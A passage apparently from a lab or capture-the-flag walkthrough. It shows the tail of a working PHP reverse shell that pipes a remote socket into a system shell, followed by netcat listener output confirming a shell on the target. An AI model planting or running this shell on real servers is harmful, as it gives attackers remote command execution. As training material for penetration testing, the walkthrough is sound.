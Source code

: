 ````php
		printit("ERROR: Shell connection terminated");
		break;
	}
	if (feof($pipes[1])) {
		printit("ERROR: Shell process terminated");
		break;
	}
	$read_a = array($sock, $pipes[1], $pipes[2]);
	$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);
	if (in_array($sock, $read_a)) {
		if ($debug) printit("SOCK READ");
		$input = fread($sock, $chunk_size);
		if ($debug) printit("SOCK: $input");
		fwrite($pipes[0], $input);
	}
	if (in_array($pipes[1], $read_a)) {
		if ($debug) printit("STDOUT READ");
		$input = fread($pipes[1], $chunk_size);
		if ($debug) printit("STDOUT: $input");
		fwrite($sock, $input);
	}
	if (in_array($pipes[2], $read_a)) {
		if ($debug) printit("STDERR READ");
		$input = fread($pipes[2], $chunk_size);
		if ($debug) printit("STDERR: $input");
		fwrite($sock, $input);
	}
}
fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);
function printit ($string) {
	if (!$daemon) {
		print "$string\n";
	}
}
````

and now we should have a reverse shell in our netcat listener:

````
c -nlvp 4000
listening on [any] 4000 ...
connect to [10.9.205.135] from (UNKNOWN) [10.10.176.240] 38545
Linux linux 3.13.0-55-generic #94-Ubuntu SMP Thu Jun 18 00:27:10 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux
 13:13:08 up 31 min,  0 users,  load average: 0.00, 0.01, 0.05
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1(daemon) gid=1(daemon) groups=1(daemon)
/bin/sh: 0: can't access tty; job control turned off
$ 
````
